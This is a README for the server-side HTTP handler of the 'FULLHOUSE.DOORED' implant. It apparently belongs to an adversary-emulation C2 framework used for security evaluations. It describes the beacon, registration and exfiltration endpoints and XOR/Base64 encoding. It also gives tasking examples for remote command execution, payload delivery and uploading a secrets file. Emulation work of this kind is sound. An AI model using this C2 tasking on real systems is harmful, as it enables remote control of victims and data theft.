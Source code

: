 # FULLHOUSE.DOORED HTTP Handler

The FULLHOUSE.DOORED HTTP Handler functions as the server-side counterpart to the FULLHOUSE.DOORED implant, and communicates with it over HTTP. The handler is configured to do the following:

- respond to implant beacons / task requests with a task command
- register a new implant with the control server, or indicate that a session already exists for the implant
- process the task response data and upload to the control server
- accept tasking from `evalsC2client.py` and send to implants when requested

## Components

The handler consists of an HTTP web server that listens on a specified address/port, and serves the following URL endpoints:

| URL Endpoint | Server Response | Description |
| ------------ | --------------- |------------ |
| `GET /request/{identifier}` | Heartbeat response, Implant task | Heartbeat request / task request |
| `POST /request/{identifier}` | Heartbeat response | Initial implant registration and discovery data |
| `POST /form/{identifier}` | Heartbeat response | Task response from implant |
| `GET /files/{filename}` | Contents of specified file | File ingress request from implant |
| `POST /submit` | Heartbeat response | File exfiltration from implant, the filename is included in the HTTP header |

The first packet from the FULLHOUSE.DOORED implant will contain the hostname, username, process ID, and its UUID. The implant will set a random sleep value (between 5-15 seconds) after it registers.

## Encryption

All communication to/from the FULLHOUSE.DOORED implant will be Base64 encoded and XOR'd. The entire JSON packet will be encoded.

## Usage

### Building

To build the control server binary, run the following command from the `evalsC2server` directory:

```
go build -o controlServer main.go
```

### Configuration

To enable and configure the FULLHOUSE.DOORED HTTP handler within the control server, provide a `fullhouse` entry in your handler configuration YAML file (see example below). Adjust the host and port values as necessary.

Example:

```
fullhouse:
  host: 10.0.2.11
  port: 8080
  enabled: true
```

Run the `controlServer` binary as `sudo` and monitor the output to see FULLHOUSE handler updates. Ex:

```
sudo ./controlServer -c ./config/your_handler_config.yml
```

### Testing

Unit tests for the FULLHOUSE.DOORED HTTP handler are available in the `fullhouse_test.go` file. To run these tests, run the following command from the `evalsC2server` directory:

```
sudo go test ./...
```

To run only a single test, navigate to the `evalsC2server\handlers\fullhouse` directory and run:

```
sudo go test -run NameOfTestFunction
```

### Tasking

To submit a task to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields:

| Field | Data Type | Necessity | Description |
| ------------ | ----------- | ----------- |----------- |
| id | int | required | The ID of the task the implant will execute. A table detailing the different tasks is available below. |
| arg | string | optional | Command line arguments for the implant to execute OR paths for file upload/download.  |
| payload | string | optional | The name of the server-side payload to deliver as part of the task. |

The following table contains the various acceptable commands and their meanings:

| Command      | Arguments | Implant Output | Description |
| -----------  | --------- | -------------- | ------------|
| 0 | None | None | Heartbeat (no task available) |
| 1 | CLI arguments | Process output of CLI args | Command execution |
| 2 | Payload/file name and path | None | File ingress (C2 -> Implant) |
| 3 | File path | None | File exfiltration (Implant -> C2) |

Use the following format to submit the commands from the `evalsC2server` directory:

```
./evalsC2client.py --set-task <UUID> '{"id": <id>, "payload": "<payload name>", "arg": "<args>"}'
```

Example commands:

- 1: Task command execution of `whoami`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id": 1, "arg":"whoami"}'
  ```

- 2: Task file download of `myPayload`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id": 2, "payload": "myPayload", "arg":"/path/to/write/myPayload"}'
  ```

- 3: Task file upload of `secrets.txt`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id": 3, "arg":"/path/to/secrets.txt"}'
  ```

### Troubleshooting

## CTI References

1. <https://www.mandiant.com/resources/blog/north-korea-supply-chain>
2. <https://objective-see.org/blog/blog_0x77.html>
